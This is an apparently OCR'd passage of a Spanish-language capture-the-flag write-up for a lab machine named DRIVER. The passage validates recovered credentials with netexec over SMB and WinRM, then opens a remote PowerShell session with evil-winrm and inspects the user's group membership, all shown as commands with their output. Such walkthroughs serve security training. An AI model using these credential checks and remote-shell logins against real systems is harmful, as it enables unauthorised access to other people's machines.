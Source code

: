 `Comprobamos` si las `credenciales` son válidas

```
# netexec smb 10.129.190.165 -u 'tony' -p 'liltony'           
SMB         10.129.190.165  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.190.165  445    DRIVER           [+] DRIVER\tony:liltony 

# netexec winrm 10.129.190.165 -u 'tony' -p 'liltony'             
WINRM       10.129.190.165  5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
WINRM       10.129.190.165  5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

Como el `msrpc` está activado nos podemos `conectar` a la máquina víctima

```
# evil-winrm -i 10.129.190.165 -u 'tony' -p 'liltony'     
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```

Aquí podemos ver que efectivamente el usuario `tony` pertenece al grupo `Remote Management Users`

```
*Evil-WinRM* PS C:\Users\tony\Documents> net user tony
User name                    tony
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/7/2021 11:49:20 PM
Password expires             Never
Password changeable          9/7/2021 11:49:20 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/28/2024 5:05:47 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users
Global Group memberships     *None
The command completed successfully.
```
